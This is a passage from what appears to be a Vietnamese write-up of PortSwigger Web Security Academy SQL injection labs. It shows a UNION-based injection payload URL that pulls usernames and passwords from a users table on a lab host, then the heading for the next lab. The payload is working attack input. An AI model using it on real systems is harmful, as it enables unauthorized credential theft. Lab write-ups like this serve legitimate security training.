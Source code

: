 ![Database từ users table](sql-injection/sqli-union-attack/database-users-table.jpg)
'
`Payload: "https://ac1c1fcf1ef5e8c8c0a17e340047008c.web-security-academy.net/filter?category=Accessories%27+UNION+SELECT+username,password+FROM+users--"`

![Solved SQLi finding other table](sql-injection/sqli-union-attack/solved-union-attack-finding-other-table.jpg)

### Lab: SQL injection UNION attack, retrieving multiple values in a single column <a name="union-attack-retrieving-multiple-value"></a>

Đường dẫn đến lab [ở đây](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column)
